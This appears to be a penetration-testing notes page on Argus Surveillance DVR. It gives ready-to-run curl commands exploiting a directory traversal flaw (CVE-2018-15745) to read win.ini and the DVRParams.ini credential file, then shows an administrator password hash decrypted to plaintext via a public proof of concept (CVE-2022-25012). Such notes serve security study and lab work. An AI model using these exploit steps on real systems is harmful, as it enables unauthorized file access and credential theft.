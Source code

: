 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Argus Surveillance DVR

[Argus Surveillance DVR](https://argus-surveillance-dvr.apponic.com/) is a Windows-based video surveillance application developed by PY Software for converting computers into security monitoring systems. It provides functionality for capturing video from IP cameras, webcams, and other sources, storing recordings locally, and offering remote access capabilities through a built-in web server. Configuration is stored in local `.ini` files under the `ProgramData` directory, where settings such as user accounts, camera streams, and operational parameters are defined.

The application integrates scheduling, motion detection, and multi-camera support, making it a popular choice for small businesses and home users seeking low-cost surveillance solutions. Remote access is exposed via an HTTP interface that allows configuration management and video streaming.

## LFI

Argus Surveillance DVR version `4.0.0.0` is affected by a directory traversal vulnerability ([CVE‑2018‑15745](https://nvd.nist.gov/vuln/detail/CVE-2018-15745)) due to insufficient sanitization of the `RESULTPAGE` parameter in `WEBACCOUNT.CGI`. This flaw allows unauthenticated attackers to supply path traversal sequences, enabling retrieval of arbitrary files from the host file system, including configuration files and private keys. The vulnerability arises because the CGI script does not properly validate or restrict input, allowing navigation outside the intended directory.

The `DVRParams.ini` file contains some configuration settings and is typically located at `C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini`.

{% code overflow="wrap" %}
```bash
$ curl "http://dvr4:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fwin.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=" -

# Configuration file
$ curl "http://dvr4:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2f..%5cprogramdata%5cPY_Software%5cArgus+surveillance+dvr%5cdvrparams.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=" --proxy 127.0.0.1:8080
```
{% endcode %}

## Decryption

Argus Surveillance DVR version `4.0` is affected by a **weak password encryption vulnerability** ([CVE‑2022‑25012](https://nvd.nist.gov/vuln/detail/CVE-2022-25012)) due to the use of insecure cryptographic methods for storing user credentials. The application does not adequately protect passwords, making them susceptible to offline recovery or brute-force attacks if configuration files or databases are accessed. The `DVRParams.ini` file contains the users' login details. A Python-based working [PoC](https://github.com/s3l33/CVE-2022-25012) is available:

```bash
$ cat DVRParams.ini | grep -i "^password"
Password0=ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8 # Administrator
​
$ python3 CVE-2022-25012.py ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8
[+] Password: 14WatchD0g$
```
